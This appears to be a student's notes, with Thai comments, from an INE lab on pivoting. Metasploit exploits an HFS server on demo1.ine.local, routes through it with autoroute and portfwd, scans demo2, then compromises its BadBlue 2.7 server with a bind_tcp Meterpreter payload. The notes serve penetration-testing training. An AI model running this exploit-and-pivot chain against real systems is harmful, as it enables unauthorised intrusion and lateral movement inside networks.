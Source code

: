 `nmap -sC -sV demo1.ine.local`
HFS
`nmap -sC -sV demo2.ine.local`
block

`search hfs`
`use 0`
`set RHOSTS demo1.ine.local`

`ipconfig`
IPv4 Address : 10.0.25.119

`run autoroute -s 10.0.25.0/20`
สำหรับอยากเข้าเครือข่ายหลัง pivot

`background`
`use auxiliary/scanner/portscan/tcp`
`set RHOSTS demo2.ine.local`
`set PORTS 1-100`
`exploit`

case พิเศษ จำเป็นต้อง scan port ผ่าน metaexpoit (ปกติใช้ nmap)
set PORTS 21,22,23,25,53,80,110,111,135,139,143,443,445,993,995,1433,1723,3306,3389,5900,8080,8443
set THREADS 10
ดีกว่า 

`sessions -i 1`
`portfwd add -l 1234 -p 80 -r <IP Address of demo2.ine.local>`
`portfwd list`

`nmap -sV -p 1234 localhost`
จังหวะนี้เราใช้ nmap ผ่าน pivot ได้แล้ว
1234/tcp open  http    BadBlue httpd 2.7
(คือเอาจริงๆไม่ต้อง fwd port นะ autoroute พอแล้ว)


`use exploit/windows/http/badblue_passthru`
`set PAYLOAD windows/meterpreter/bind_tcp`
`set RHOSTS demo2.ine.local`
`exploit`
อย่าลืม รันตัวเดียวกับ expolit แรก 
pivot ใช้  bind tcp ตลอดนะ